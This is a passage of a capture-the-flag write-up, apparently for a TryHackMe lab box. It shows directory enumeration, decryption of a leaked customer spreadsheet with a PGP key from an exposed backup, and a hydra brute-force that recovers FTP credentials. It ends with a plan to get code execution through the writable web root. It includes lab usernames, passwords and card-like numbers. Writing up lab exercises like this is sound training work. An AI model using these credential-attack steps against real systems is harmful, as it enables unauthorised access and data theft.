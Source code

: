 ```
/.htpasswd            (Status: 403) [Size: 218]
/.htaccess            (Status: 403) [Size: 218]
/backups              (Status: 301) [Size: 235] [--> http://10.10.4.129/backups/]
/cgi-bin/             (Status: 403) [Size: 217]
```

There is a backups page, in there we can find a backup.zip file.
The zip is easily extracted (not password protected). In it we find:
- A PGP private key
- An excel file CUstomerDetails.xlsx.gpg

## Decrypt the xlsx

- According to [this doc](https://www.gnupg.org/gph/en/manual/x110.html) it can be decrypted in one command but first we need to import the private key with `pgp --import priv.key`
- And then we can decrypt the file:
```
┌──(root💀kali)-[~/Documents/tryhackme/overpass3/backup]
└─# gpg --output CustomerDetails.xlsx --decrypt CustomerDetails.xlsx.gpg
```
- Once decrypted the file can be opened with libre office (if you do not have Microsoft Excel like me ;) )
- And we get this
```
Customer Name	Username	Password	Credit card number	CVC
Par. A. Doxx	paradox	ShibesAreGreat123	4111 1111 4555 1142	432
0day Montgomery	0day	OllieIsTheBestDog	5555 3412 4444 1115	642
Muir Land	muirlandoracle	A11D0gsAreAw3s0me	5103 2219 1119 9245	737
```

So we have usernames and passwords:
- paradox	ShibesAreGreat123
- 0day	OllieIsTheBestDog
- muirlandoracle	A11D0gsAreAw3s0me

We can put them both in separate files for later use

## FTP

- Let's see if we can use those to connect through ftp. (note: I tried with ssh but password authentication is not supported)
- Using hydra we have a hit!
```
┌──(root💀kali)-[~/Documents/tryhackme/overpass3]
└─# hydra -L users -P pass 10.10.4.129 -t 4 ftp                                                                                                                                                          255 ⨯
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-30 18:17:40
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:3/p:3), ~3 tries per task
[DATA] attacking ftp://10.10.4.129:21/
[21][ftp] host: 10.10.4.129   login: paradox   password: ShibesAreGreat123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-30 18:17:48
```
- So we can connext to the ftp using the creds paradox:ShibesAreGreat123
- It seems like this the ftp used to serve the website. We have write permission so we can try to get rce this way.